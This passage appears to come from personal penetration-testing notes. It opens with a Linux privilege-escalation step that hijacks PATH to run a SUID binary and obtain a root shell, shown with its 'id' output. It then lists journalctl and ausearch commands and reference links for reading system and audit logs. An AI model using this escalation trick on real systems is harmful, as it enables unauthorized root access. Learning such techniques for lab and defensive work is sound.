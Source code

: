 Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root) ...

* * *

## **LOG FILES**

https://www.osdfcon.org/presentations/2019/Ali-Hadi_Performing-Linux-Forensic-Analysis-and-Why-You-Should-Care.pdf

https://www.loggly.com/ultimate-guide/using-journalctl/
https://materials.rangeforce.com/tutorial/2020/04/16/Systemd-Journal/

https://www.digitalocean.com/community/tutorials/how-to-troubleshoot-common-apache-errors

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sec-audit_record_types

In linux, the group **ADM **own the permission to look inside the log folders. (/var/log/.....)

Interesting logs can be find in apache2 and mysql folders.

### For system logs, we can use journalctl to filters the logs.

**Example:**

journalctl _UID=1002 --since 2020-02-29 --until today

To know are the _UID available we can use -F _UID. It works with every type of filters like _GID etc...

https://www.freedesktop.org/software/systemd/man/systemd.journal-fields.html

journalctl -F <_EXE or _UID or _GID etc...>

### For audit logs we can use AUSEARCH

https://blog.selectel.com/auditing-system-events-linux/

https://www.cyberciti.biz/tips/linux-audit-files-to-see-who-made-changes-to-a-file.html

ausearch type=tty

ausearch -ui 33

Don't mix the commands together because it can not output the proper results.

Here is a list of event type:

https://docs.oracle.com/cd/E37100_01/doc.121/e27777/lin_eventdata.htm#SIGAU41047

* * *

**HEX**
**
**
**XXD**
**
**
